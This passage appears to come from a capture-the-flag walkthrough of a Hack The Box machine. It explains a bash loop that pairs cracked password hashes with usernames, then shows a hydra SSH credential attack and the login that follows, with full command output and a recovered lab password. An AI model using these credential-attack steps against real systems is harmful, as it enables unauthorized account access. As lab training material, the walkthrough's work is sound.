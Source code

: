 

I'll break that loop down:

1.  `cat cracked | while read c; do` - Start a loop over each line in my
    cracked output. An example line looks like
    `254e5f2c3beb1a3d03f17253c15c07f3:hacktheplanet`.
2.  `hash=$(echo ${c} | cut -d: -f1);` - Use `cut` to get just the hash
    part of the line, and save it as `hash.`
3.  `pass=$(echo $c | cut -d: -f2);` - Do the same to save the password
    as `pass`.
4.  `username=$(grep ${hash} users.json | cut -d'"' -f2);` - `grep` to
    find the line with the corresponding hash in the users.json file.
    The line will look like
    `"colleen": "d3792794c3143f7e04fd57dc8b085cd4",`. Then cut based on
    `"` and get the 2nd field, which is the username. Save that as
    `username`.
5.  `echo "${username}:${pass}";` - Echo the username and password in
    the desired format.

### Hydra

Now I can use `hydra` to see if any of the 12 work as an SSH login,
using the `-C` flag, which takes a colon separated "login:pass" format,
rather than the `-L` and `-P` options. It finds I can successfully ssh
as genevieve:



    root@kali# hydra -C user_pass ssh://10.10.10.86
    Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.                                                                                

    Hydra (http://www.thc.org/thc-hydra) starting at 2018-10-29 11:58:14
    [WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4                                                                                          
    [DATA] max 12 tasks per 1 server, overall 12 tasks, 12 login tries, ~1 try per task
    [DATA] attacking ssh://10.10.10.86:22/
    [22][ssh] host: 10.10.10.86   login: genevieve   password: Princess1
    1 of 1 target successfully completed, 1 valid password found
    Hydra (http://www.thc.org/thc-hydra) finished at 2018-10-29 11:58:17



### ssh Shell

I am now able to ssh in as genevieve:



    root@kali# ssh genevieve@10.10.10.86
    The authenticity of host '10.10.10.86 (10.10.10.86)' can't be established.
    ECDSA key fingerprint is SHA256:3gHAJvc1zomI4M6+oCp/3xrMyS6DMPbMFEGDbBO2Qso.
    Are you sure you want to continue connecting (yes/no)? yes
    Warning: Permanently added '10.10.10.86' (ECDSA) to the list of known hosts.
    genevieve@10.10.10.86's password: 
    Welcome to Ubuntu 16.04.5 LTS (GNU/Linux 4.4.0-133-generic x86_64)
